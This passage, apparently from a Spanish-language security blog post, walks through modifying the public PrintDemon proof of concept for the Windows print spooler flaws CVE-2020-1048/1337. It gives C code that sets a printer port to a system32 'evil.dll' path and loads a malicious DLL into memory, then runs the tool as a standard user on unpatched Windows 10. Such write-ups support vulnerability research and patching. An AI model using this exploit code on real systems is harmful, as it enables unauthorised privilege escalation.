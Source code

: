 Utilizando Visual Studio para abrir el proyecto una vez descargado desde el [repositorio](https://github.com/ionescu007/PrintDemon), el primer paso será modificar en `printserver\pserver.c` el fichero destino utilizado como puerto local de la impresora:

{{< highlight c >}}
    LPWSTR g_PortName = L"c:\\windows\\system32\\evil.dll";
{{< /highlight >}}


Modificaremos también la declaración de las variables `hPrinter` y `hMonitor` asignándoles un valor por defecto igual a `NULL`:

{{< highlight c >}}
    HANDLE hPrinter = NULL;
    HANDLE hMonitor = NULL;
{{< /highlight >}}

Posteriormente agregaremos el fichero de cabecera `strsafe.h` y el siguiente fragmento código, adaptado a partir de una [respuesta](https://stackoverflow.com/questions/14002954/c-programming-how-to-read-the-whole-file-contents-into-a-buffer) en stackoverflow, y que se encargará de copiar el contenido de la DLL maliciosa en una cadena de texto y almacenarla en memoria:

{{< highlight c >}}
    FILE* f;
    wchar_t wDirPath[MAX_PATH];
    DWORD dRet;

    dRet = GetCurrentDirectory(MAX_PATH, wDirPath);
    if (dRet == 0)
    {
        printf("GetCurrentDirectory failed (%d)\n", GetLastError());
        goto CleanupPath;
    }
    wcscat_s(wDirPath, sizeof(wDirPath), L"\\evil.dll");

    _wfopen_s(&f, wDirPath, L"rb");
    fseek(f, 0, SEEK_END);
    long fsize = ftell(f);
    fseek(f, 0, SEEK_SET);

    char* string = malloc(fsize + 1);
    fread(string, 1, fsize, f);
    fclose(f);

    printf("[.] Reading evil.dll: %d bytes\n", fsize);
{{< /highlight >}}

Por último indicar que será [necesario](https://github.com/ionescu007/SpecuCheck/issues/5) tener instalado el [Windows Driver Kit](https://docs.microsoft.com/en-us/windows-hardware/drivers/download-the-wdk) para que el proyecto compile correctamente, ya que depende de la librería `ntdllp.lib`.

Ahora, en un sistema Windows 10, sin la actualización correspondiente al [CVE-2020-1048](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1048) instalada, utilizaremos el binario `printserver.exe` generado colocando en el mismo directorio un fichero de nombre `evil.dll` desde el contexto de un usuario estándar:

![Ejecución del binario printserver modificado](/posts/CVE-2020-1337_mis_cinco_centavos/002.png)
